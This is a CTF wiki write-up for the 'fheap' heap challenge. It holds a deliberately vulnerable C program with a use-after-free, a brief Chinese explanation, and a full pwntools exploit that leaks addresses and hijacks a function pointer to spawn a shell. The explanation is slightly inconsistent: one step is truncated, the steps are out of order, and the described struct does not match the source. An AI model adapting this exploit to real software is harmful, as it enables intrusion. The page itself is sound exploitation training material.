


# ctf_wiki: fheap

## source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct String{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;

struct {
    int inuse;
    String *str;
} Strings[0x10];

void showMenu(void);

int getInt(void);

void creatStr();

void deleteStr();

void freeShort(String *str);

void freeLong(String *str);
int getInt(void) {
    char str[11];
    char ch;
    int i;
    for (i = 0; (read(STDIN_FILENO, &ch, 1), ch) != '\n' && i < 10 && ch != -1; i++) {
        str[i] = ch;
    }
    str[i] = 0;
    return atoi(str);
}

int main(void) {
	char buf[1024];
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    printf("+++++++++++++++++++++++++++\n");
    printf("So, let's crash the world\n");
    printf("+++++++++++++++++++++++++++\n");


    while (1) {
        showMenu();
		if(read(STDIN_FILENO,buf,1024)==0){
			return 1;
		}
		if(!strncmp(buf,"create ",7)) {
			creatStr();
		} 
		else if (!strncmp(buf,"delete ",7)) {
            deleteStr();
		}
		else if(!strncmp(buf,"quit ",5)) {
            printf("Bye~\n");
            return 0;
		}
		else{
            printf("Invalid cmd\n");
        }
    }

}
void freeShort(String *str) {
    free(str);
}

void freeLong(String *str) {
    free(str->o.buf);
    free(str);
}

void deleteStr() {
    int id;
	char buf[0x100];
    printf("Pls give me the string id you want to delete\nid:");
    id = getInt();
    if (id < 0 || id > 0x10) {
        printf("Invalid id\n");
    }
    if (Strings[id].str) {
		printf("Are you sure?:");
		read(STDIN_FILENO,buf,0x100);
		if(strncmp(buf,"yes",3)) {
			return;
		}
        Strings[id].str->free(Strings[id].str);
        Strings[id].inuse = 0;
    }
}


void creatStr() {
    String *string = malloc(sizeof(String));
    int i;
    char *str = NULL;
    char buf[0x1000];
    size_t size;

    printf("Pls give string size:");
    size = (size_t) getInt();
    if (size < 0 || size > 0x1000) {
        printf("Invalid size\n");
        free(string);
        return;
    }
	printf("str:");
    if (read(STDIN_FILENO, buf, size) == -1) {
        printf("got elf!!\n");
        exit(1);
    }
    size = strlen(buf);
    if (size < 16) {
        strncpy(string->o.array, buf, size);
        string->free = freeShort;
    }
    else {
        str = malloc(size);
        if (str == NULL) {
            printf("malloc faild!\n");
            exit(1);
        }
        strncpy(str, buf, size);
        string->o.buf = str;
        string->free = freeLong;

    }

    string->len = (int) size;
    for (i = 0; i < 0x10; i++) {
        if (Strings[i].inuse == 0) {
            Strings[i].inuse = 1;
            Strings[i].str = string;
            printf("The string id is %d\n", i);
            break;
        }
    }
    if (i == 0x10) {
        printf("The string list is full\n");
        string->free(string);
    }
}


void showMenu(void) {
    printf("1.create string\n");
    printf("2.delete string\n");
    printf("3.quit\n");
}
```

## 功能



1. 只有 add 和 delete 的功能，其中 add 的时候可以写数据。
2. delete 功能是通过调用对应结构体中的函数指针来实现的。

add 功能创建的结构体如下：

```c
struct Node{
		char *content;
		long xxx;
		long size;
		void *func_ptr;
};
```



## 漏洞

delete 功能中 free 存在 dangling pointer，存在 uaf 漏洞。

## 利用

1. 程序开启了 pie 保护。因此可以利用 uaf 篡改函数指针的低位，使其指向 call puts ，然后使用 delete 功能打印出 call puts 的地址，从而泄露 code base。
2. 再次 uaf，篡改函数指针低位指向 system addr，控制参数为:
3. 再次使用 uaf 漏洞篡改函数指针低位，使其指向 printf，从而泄露 libc base，得到 system addr。

## exp

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./fheap"
libc_binary = "/lib/x86_64-linux-gnu/libc.so.6"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("3.quit\n",str(idx))

def add(length,content):
    opt("create ")
    p.sendlineafter("Pls give string size:",str(length))
    p.sendafter("str:",str(content))

def free(idx):
    opt("delete ")
    p.sendlineafter("id:",str(idx))
    p.sendlineafter("Are you sure?:",str("yes"))


add(0x10,"a"*0x10)
add(0x10,"b"*0x10)
free(1)
free(0)

payload = flat([
    "a"*0x18,
    p8(0xe4)
    ])
add(0x20,payload)

free(1)
p.recvuntil("a"*0x18)
code_base = u64(p.recv(6).ljust(8,"\0")) - 0xde4
success("code_base addr is -> "+ hex(code_base))
p.sendlineafter("sure?:","no")

free(0)
printf_plt = code_base + elf.plt["printf"]
success("printf_plt addr is -> "+ hex(printf_plt))

add(0x20,"%37$p".ljust(0x18,"b") + p8(0xd0) + p8(0x49))
free(1)

libc.address = int(p.recv(14),16) - 0x6f80a
system_addr = libc.sym["system"]
success("system_addr is " + hex(system_addr))

free(0)

payload = "/bin/sh;".ljust(0x18,"x") + p64(system_addr)
add(0x20,payload)
free(1)

# gdb.attach(p,"set $h=0x555555757000,$g=0x5555557560c0\nb *0x5555555549d0")

p.interactive()
```
